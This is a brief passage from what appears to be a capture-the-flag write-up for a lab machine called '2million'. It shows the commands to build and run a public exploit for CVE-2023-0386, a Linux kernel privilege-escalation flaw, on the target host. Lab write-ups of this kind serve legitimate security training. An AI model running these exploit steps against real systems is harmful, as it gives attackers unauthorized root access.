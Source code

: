 On target, build the binaries

```bash
admin@2million:/tmp$ cd CVE-2023-0386/
admin@2million:/tmp/CVE-2023-0386$ make all
```

Run these two commands in separated terminal

```bash
./fuse ./ovlcap/lower ./gc
```

```bash
./exp
```

![](/assets/obsidian/6a7b6d02cd9f7cea4f77f8068b1263d3.png)
